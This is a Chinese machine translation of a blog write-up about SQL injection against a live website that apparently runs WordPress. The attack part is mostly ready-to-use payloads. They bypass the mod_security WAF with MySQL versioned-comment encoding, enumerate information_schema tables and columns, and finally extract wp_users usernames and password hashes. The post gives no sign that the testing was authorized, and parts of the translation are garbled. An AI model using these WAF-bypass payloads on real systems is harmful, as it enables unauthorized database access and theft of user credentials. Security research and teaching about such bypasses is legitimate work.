 # 有趣的 sql 注入—绕过 mod_security

> 原文：<https://infosecwriteups.com/fun-sql-injection-mod-security-bypass-644b54b0c445?source=collection_archive---------1----------------------->

在这篇文章中，我想向你展示一个我在测试一个网站时遇到的有点特殊的案例。

这是一个 sql 注入，我可以绕过“mod _ security”waf。当我开始 sql 注入测试时，我意识到网站正在使用 waf。

当我们使用一个简单的:

```
site/ejemplo?parameter=-1+union+selec+1,2,3,4,5,6,7+--+
```

![](img/44feee03d95d2360b2fe8e0c310adc4f.png)

现在，我不打算骗你，只是通过用注释对有效载荷进行编码，我就能够绕过 waf 过滤器。

```
site/ejemplo?parameter=-1+/*!50000union*/+/*!50000selec*/+1,2,3,4,5,6,7+--+
```

![](img/539e56564db33eca9d8e573f620491fd.png)

我们可以看到其中一个易受攻击的列是第四列。

但是像所有喜欢 sql 注入的人一样，我决定不像那样离开它，尝试其他方法、其他有效负载..经过多次测试和失败的混合载荷。

我最终尝试了这个:

```
AND mod(29,9)+div+[@a](http://twitter.com/a):=(concat(database(),"--","_Y000!_"))+UNION+DISTINCTROW+SELECT+1,2,3,[@a](http://twitter.com/a),5,6,7
```

这是怎么回事？

我们有:

```
"AND" = The AND operator returns a record if all conditions separated by AND are TRUE."mod(29,9)" = The mod function is to make a division between the values."div" = In sql the div function is used to divide"@a:=" = This serves as an alias to save an sql query inside, example: [@a](http://twitter.com/a):=(concat(database(),"--","_Y000!_"))"union" = works to join more than 2 sql commands"distinctrow" = helps us avoid duplicate results"select" = select what we want from the database"1,2,3,4,5,6,7" = number of columns in the database"AND mod(29,9)+div+[@a](http://twitter.com/a):=(concat(database(),"--","_Y000!_"))+UNION+DISTINCTROW+SELECT+1,2,3,[@a](http://twitter.com/a),5,6,7"
```

在没有任何编码的情况下注入这个有效负载，我们得到的结果如下:

![](img/69b5e4afa52c0438c42fb1dd5c7db904.png)

记住，以前我们可以使用注释编码跳过过滤器:

```
-1+AND+mod(29,9)+div+[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)+/*!50000UNION*//**//*!50000DISTINCTROW*/+/*!50000SELECT*/+1,2,3,[@a](http://twitter.com/a),"_Y000!_",6,7--+
```

![](img/25730fc392497d60935367c3a641dbf7.png)

通过编码，我们再次跳过了 waf，但是有了新的有效载荷！

![](img/ac52eb3401875e8b0cc521fdbceb8f32.png)

现在我要教一些我觉得有趣的东西。

正如我们在前面的图像中看到的，我们能够从数据库中提取信息，在这个例子中，在这个名称中，我们也有一些分隔符和我的昵称，这要感谢 concat 内部的注入

```
[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)
```

我们在“描述”部分有这个，但是在右边我们有下载文件的选项。

有趣的是，下载文件的选项也是易受攻击的，并清楚地向我们显示易受攻击的列是第 5 位。

![](img/56dcbc04aea05431b42b4242ea3d2f93.png)

趁着 bug，我们再多测试一点！

我们向负载添加了一些信息，以便能够从数据库表的名称中提取基本信息:

```
-1+AND+mod(29,9)+div+[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)+/*!50000UNION*//**//*!50000DISTINCTROW*/+/*!50000SELECT*/+1,2,3,[@a](http://twitter.com/a),table_name,6,7+/*!50000from*/+/*!50000information_schema.tables*/+--+
```

![](img/d2f864195ed01083dbefdca079b23427.png)

我们得到了以下结果:

![](img/6ff0eb1a48131ef771013ccb95602fe6.png)

你可以看到，之前我们只有一个文件要下载，在这种情况下，当向有效负载添加句子以提取表的名称时，会出现更多信息，但更仔细地看，出现的所有新信息都是有效负载提取的数据库信息，正如你在右侧的图像中可以看到的，我们有许多用于 HTML 中的表的 ，在每个表中我们都有数据库的表的名称。

再看一点…我意识到页面用了 wordpress …

![](img/0e53ea10fb7cf739b1cf76df1f669cdb.png)

它真的让我们无所遁形！

```
-1+AND+mod(29,9)+div+[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)+/*!50000UNION*//**//*!50000DISTINCTROW*/+/*!50000SELECT*/+1,2,3,[@a](http://twitter.com/a),column_name,6,7+/*!50000from*/+/*!50000information_schema.columns*/+/*!50000where*/+/*!50000table_name="wp_users"*/+--+
```

![](img/27d9b003f69440dd27bddada7e696426.png)

最后，我找到了用户名和密码信息

```
-1+AND+mod(29,9)+div+[@a](http://twitter.com/a):=(/*!50000concat(database/**_**/(),"--","_Y000!_")*/)+/*!50000UNION*//**//*!50000DISTINCTROW*/+/*!50000SELECT*/+1,2,3,[@a](http://twitter.com/a),/*!50000CoNcAt(user_nicename,"--",user_pass)*/,6,7+/*!50000from*/+/*!50000wp_users*/+--+
```

![](img/797e7b336654ea369f73a386a50b708c.png)

注意:不要到处留下未标记的站点，错误可能出现在最意想不到的地方

非常感谢你花时间阅读这篇文章。

**你觉得怎么样？你遇到过类似的错误吗？**